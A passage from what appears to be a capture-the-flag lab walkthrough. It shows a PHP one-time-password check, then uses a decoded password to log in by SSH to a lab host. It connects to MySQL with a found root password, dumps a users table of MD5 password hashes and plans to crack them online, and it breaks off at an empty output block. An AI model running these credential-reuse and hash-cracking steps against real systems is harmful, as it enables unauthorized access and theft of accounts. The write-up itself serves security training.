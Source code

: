 ```
                                        $otp = $_POST["otp"];
                                        if($otp == $random)
                                        {
                                                echo "Welcome Anurodh!";
                                                header("Location: authenticated.php");
                                        }
```
The decoded Base64 string for the password is: `!d0ntKn0wmYp@ssw0rd`. We can use Anurodh credentials for accessing to the server by SSH:
```
ssh 10.10.204.221 -l anurodh

anurodh@10.10.204.221's password: !d0ntKn0wmYp@ssw0rd
```
Currently we cannot do more, but we are inside the server and remember that we got some database information early in the `index.php` page of `/var/www/files` folder. So, let's try to connect to the database and see what we can find:
```
mysql -u root -p -h localhost webportal

Enter password: !@m+her00+@db

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+

mysql> use webportal
Database changed

mysql> show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+

mysql> DESCRIBE users;
+-----------+--------------+------+-----+---------+----------------+
| Field     | Type         | Null | Key | Default | Extra          |
+-----------+--------------+------+-----+---------+----------------+
| id        | int(11)      | NO   | PRI | NULL    | auto_increment |
| firstname | varchar(100) | YES  |     | NULL    |                |
| lastname  | varchar(100) | YES  |     | NULL    |                |
| username  | varchar(100) | YES  |     | NULL    |                |
| password  | varchar(100) | YES  |     | NULL    |                |
+-----------+--------------+------+-----+---------+----------------+

mysql> SELECT * FROM users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```
These hashes are MD5. Let's crack them by using CrackStation and we get:
```
```